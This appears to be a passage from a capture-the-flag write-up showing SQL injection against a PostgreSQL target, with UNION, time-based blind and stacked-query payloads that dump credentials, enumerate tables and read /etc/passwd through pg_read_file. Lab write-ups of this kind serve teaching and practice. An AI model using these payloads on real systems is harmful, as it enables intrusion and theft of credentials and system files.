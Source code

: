 potential payloads

```bash
9. ' UNION SELECT username,password FROM users--
10. ' UNION SELECT * FROM users ORDER BY 1--
11. '; SELECT pg_sleep(5)--     # Time-based blind
12. ' OR 1=1; SELECT version()-- # Stacked queries
```

we can verify with `'osman'; SELECT version()--`

![alt text](../assets/images/darkcorp9.png)

my payloads will be;

```bash
'osman'; SELECT table_name FROM information_schema.tables WHERE table_schema = 'public'--
```

![alt text](../assets/images/darkcorp10.png)

but i was not able to read then with basic payloads like

```bash
'osman'; SELECT * FROM Admins LIMIT 3--
'osman'; SELECT * FROM Users LIMIT 5--
```

so i will change my attack aim. since we are working on psql from Linux i tried to read `/etc/passwd`

```bash
'osman'; SELECT pg_read_file('/etc/passwd')--
```
